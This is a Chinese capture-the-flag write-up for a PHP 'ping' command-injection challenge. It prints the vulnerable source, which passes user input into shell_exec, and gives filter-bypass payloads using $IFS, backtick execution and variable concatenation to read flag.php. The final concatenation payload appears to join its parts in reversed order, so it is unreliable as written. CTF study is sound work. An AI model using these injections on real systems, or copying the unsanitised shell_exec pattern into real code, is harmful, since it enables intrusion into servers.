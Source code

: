 正常了，但是flag被过滤了。

**解法一：**

我们可以尝试`内联执行` : 将一次的执行结果当作另一次执行的输入

payload:

```shell
/?ip=;cat$IFS$9`ls`
```

反引号`括起来的 `ls` 先执行，得到 flag.php 和 index.php

然后，cat后执行，将flag.php和index.php的内容都输出了

<img src="https://s2.loli.net/2022/12/29/mr3wBczhCHV5lPE.png" alt="image-20221229160134317" style="zoom:33%;" />



**解法二：**

我们先通过cat查看index.php的源码：

payload：

```shell
/?ip=;cat$IFS$9index.php
```

index.php:

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

我们可以使用 `字符串拼接绕过` ，payload:

```shell
/?ip=;b=ag.php;a=fl;cat$IFS$9$b$a;
```
